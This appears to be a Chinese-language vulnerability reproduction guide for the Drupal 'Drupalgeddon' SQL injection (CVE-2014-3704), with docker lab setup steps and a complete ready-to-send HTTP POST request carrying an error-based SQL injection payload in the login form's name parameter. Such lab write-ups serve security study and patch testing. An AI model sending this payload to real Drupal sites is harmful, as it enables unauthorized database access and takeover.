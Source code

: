 # （CVE-2014-3704）Drupal < 7.32 “Drupalgeddon” sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2891](https://www.zhihuifly.com/t/topic/2891)

# （CVE-2014-3704）Drupal < 7.32 “Drupalgeddon” sql注入漏洞

## 一、漏洞简介

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

## 二、漏洞影响

Drupal 7.0~7.31

## 三、复现过程

### 漏洞环境

执行如下命令启动Drupal 7.31环境：

```
docker-compose up -d 
```

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![image](img/23c47976474311cc876dbc08c4351775.png)

安装完成后，访问首页：

![image](img/91ed934711e16ebd5dc6ed6d79a93b9e.png)

### 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120 `pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a` 
```

可见，信息已被爆出：

![image](img/df97e873a3420d196494be00f7878e9d.png)

## 参考链接

> https://vulhub.org/#/environments/drupal/CVE-2014-3704/